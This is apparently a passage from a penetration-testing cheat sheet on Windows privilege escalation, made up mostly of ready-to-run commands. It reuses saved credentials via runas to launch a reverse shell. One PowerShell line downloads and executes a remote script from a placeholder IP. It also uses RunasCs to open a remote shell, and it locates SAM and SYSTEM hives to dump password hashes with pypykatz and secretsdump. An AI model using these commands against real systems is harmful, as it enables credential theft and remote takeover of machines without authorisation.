 ```shell
# show stored credentials
cmdkey /list

# transfer a reverse shell and execute it with the credentials or directly with PS
runas /savecred /user:admin reverse.exe
runas /savecred /user:admin "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://<ip>/rshell.ps1')"
```

### RunasCs

Useful for executing commands as another user with explicit credentials when you can't access them in any other way.

> <https://github.com/antonioCoco/RunasCs>

```shell
Import-Module .\
Invoke-RunasCs <user> <pass> <cmd>
# rev shell
Invoke-RunasCs <user> <pass> powershell.exe -Remote <ip>:<port>
```

### SAM and SYSTEM

!!! info
    🐈‍⬛ Hashcat mode -> 1000

Find them

```powershell
# search in the current path
dir /s SAM
dir /s SYSTEM
Get-ChildItem -Filter "SAM" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Filter "SYSTEM" -Recurse -ErrorAction SilentlyContinue

# possible locations
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old
```

Get the hash

```shell
# use pypykatz
pypykatz registry --sam sam system

# or secretsdump
impacket-secretsdump -system SYSTEM -sam SAM local # always mention 'local' in the command
```
